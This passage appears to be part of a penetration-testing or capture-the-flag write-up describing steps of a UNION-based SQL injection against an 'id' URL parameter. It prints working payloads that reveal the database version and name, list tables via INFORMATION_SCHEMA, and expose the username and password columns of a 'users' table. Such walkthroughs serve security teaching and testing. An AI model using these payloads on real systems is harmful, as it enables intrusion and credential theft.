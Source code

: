 **Step 4.2: Database Version and Name Discovery**
```sql
?id=1.1 UNION SELECT VERSION(),DATABASE(),3--
```
This revealed the database version and current database name, providing valuable information about the target system.

**Step 4.3: Table Enumeration**
```sql
?id=1.1 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),3 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE()--
```
This query revealed the database contained two tables: `tickets` and `users`.

![Database Tables](Tables.png)

**Step 4.4: Column Structure Analysis**
```sql
?id=1.1 UNION SELECT 1,GROUP_CONCAT(COLUMN_NAME),3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='users'--
```
This exposed the column structure of the `users` table, revealing fields like `username`, `password`, and potentially other sensitive data.
